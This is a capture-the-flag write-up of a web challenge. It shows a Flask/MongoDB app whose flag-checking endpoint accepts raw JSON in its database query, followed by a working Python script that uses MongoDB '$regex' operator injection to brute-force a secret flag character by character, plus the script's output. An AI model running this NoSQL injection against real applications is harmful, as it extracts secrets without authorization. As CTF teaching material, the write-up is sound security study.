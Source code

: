 # CTFC

## Description
```
I'm excited to share my minimal CTF platform with you all, take a look! btw it's ImPAWSIBLE to solve all challenges 😺

Note: flag format is INTIGRITI{.*}
```

## Provided Files
`CTFC.zip`

## Writeup

Starting off we got some files to look at. Extracting the `.zip` we got a Dockerfile and some Python files for the main logic of the web application. <br/>

Taking a look at the `app.py` file. <br/>
```py
from flask import Flask,render_template,request,session,redirect
import pymongo
import os
from functools import wraps
from datetime import timedelta
from hashlib import md5
from time import sleep

app = Flask(__name__)
app.secret_key = os.environ['SECRET_KEY']

# db settings
client = pymongo.MongoClient('localhost',27017)
db = client.ctfdb

def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})

# login check
def check_login(f):
	@wraps(f)
	def wrap(*args,**kwrags):
		if 'user' in session:
			return f(*args,**kwrags)
		else:
			return render_template('dashboard.html')
	return wrap

# routes
from user import routes

@app.route('/')
@check_login
def dashboard():
	challs = []
	for data in db.challs.find():
		del data['challenge_flag']
		challs.append(data)	
	chall_1 = challs[0]
	chall_2 = challs[1]
	return render_template('t_dashboard.html',username=session['user']['username'],chall_1=chall_1,chall_2=chall_2)

@app.route('/register')
def register():
	return render_template('register.html')

@app.route('/login')
def login():
	return render_template('login.html')

@app.route('/logout')
def logout():
	session.clear()
	return redirect('/')

@app.route('/submit_flag',methods=['POST'])
@check_login
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details ==  None:
		return "wrong flag!"
	else:
		return "correct flag!"

# wait untill mongodb start then create the challs in db
sleep(10)
createChalls()
```

Noteworthy things: <br/>
```py
def createChalls():
	db.challs.insert_one({"_id": "28c8edde3d61a0411511d3b1866f0636","challenge_name": "Crack It","category": "hash","challenge_description": "My friend sent me this random string `cc4d73605e19217bf2269a08d22d8ae2` can you identify what it is? , flag format: CTFC{<password>}","challenge_flag": "CTFC{cryptocat}","points": "500","released": "True"})
	db.challs.insert_one({"_id": "665f644e43731ff9db3d341da5c827e1","challenge_name": "MeoW sixty IV","category": "crypto","challenge_description": "hello everyoneeeeeeeee Q1RGQ3tuMHdfZzBfNF90aDNfcjM0TF9mbDRHfQ==, oops sorry my cat ran into my keyboard, and typed these random characters","challenge_flag": "CTFC{n0w_g0_4_th3_r34L_fl4G}","points": "1000","released": "True"})
	db.challs.insert_one({"_id": "38026ed22fc1a91d92b5d2ef93540f20","challenge_name": "ImPAWSIBLE","category": "web","challenge_description": "well, this challenge is not fully created yet, but we have the flag for it","challenge_flag": os.environ['CHALL_FLAG'],"points": "1500","released": "False"})
```

In this function our flag get's injected into the MongoDB database. <br/>
```py
@app.route('/submit_flag',methods=['POST'])
@check_login
def submit_flag():
	_id = request.json.get('_id')[-1]
	submitted_flag = request.json.get('challenge_flag')
	chall_details = db.challs.find_one(
			{
			"_id": md5(md5(str(_id).encode('utf-8')).hexdigest().encode('utf-8')).hexdigest(),
			"challenge_flag":submitted_flag
			}
	)
	if chall_details ==  None:
		return "wrong flag!"
	else:
		return "correct flag!"
```

This function basically returns a boolean if we enter the correct flag. <br/>
After more reconnaissance I found no other entrypoint where we could interact with the flag or the database. <br/>
Knowing that this is the only endpoint we can check if we got the correct flag or not I thought about how I could possibly bruteforce the flag. <br/>
A friend of mine came up with the idea of using a regular expression to bruteforce every character one by one. <br/>
Implementation of the idea in a python script: <br/>
```py
import requests

url = "https://ctfc.ctf.intigriti.io/submit_flag"
session_cookie = "session=eyJ1c2VyIjp7Il9pZCI6IjNkZTBjZjk5NjY0YjQ2MDE5ZTdhZTk0ZTk4MGZlZDcwIiwidXNlcm5hbWUiOiJmZmYifX0.ZViSYA.4OKP98khpZBAM2qInNa9xSLkEmY"

alr_flag = ""

def send_flag_request(flag, char):
    global alr_flag
    
    headers = {
        "Content-Type": "application/json",
        "Cookie": session_cookie
    }

    data = {
        "_id": "3",
        "challenge_flag": {
            "$regex": flag
        }
    }

    response = requests.post(url, headers=headers, json=data)

    if "wrong flag!" in response.text.lower():
        return

    else:
        print("Flag-Part Found: INTIGRITI{" + alr_flag + char + "}")
        alr_flag += char
        return True 

while True:
    restart_loop = False
    
    for char in "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_":
        flag = "INTIGRITI{" + alr_flag + char + ".*?}"
        if send_flag_request(flag, char):
            restart_loop = True 
            break  
    
    if not restart_loop:
        break
```

After logging into an accoun on the website I copied the session cookie to the python script. <br/>
Using this script I basically try 1 character at the time and blank out the rest of the flag. <br/>
Executing the script: <br/>
```sh
$ python3 bruteforcer.py
Flag-Part Found: INTIGRITI{h}
Flag-Part Found: INTIGRITI{h0}
Flag-Part Found: INTIGRITI{h0w}
Flag-Part Found: INTIGRITI{h0w_}
Flag-Part Found: INTIGRITI{h0w_1}
Flag-Part Found: INTIGRITI{h0w_1s}
Flag-Part Found: INTIGRITI{h0w_1s_}
Flag-Part Found: INTIGRITI{h0w_1s_7}
Flag-Part Found: INTIGRITI{h0w_1s_7h}
Flag-Part Found: INTIGRITI{h0w_1s_7h4}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t_}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t_P}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t_PA}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t_PAW}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t_PAWS}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t_PAWSI}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t_PAWSIB}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t_PAWSIBL}
Flag-Part Found: INTIGRITI{h0w_1s_7h4t_PAWSIBLE}
```

Like this I bruteforced the flag using regex. 


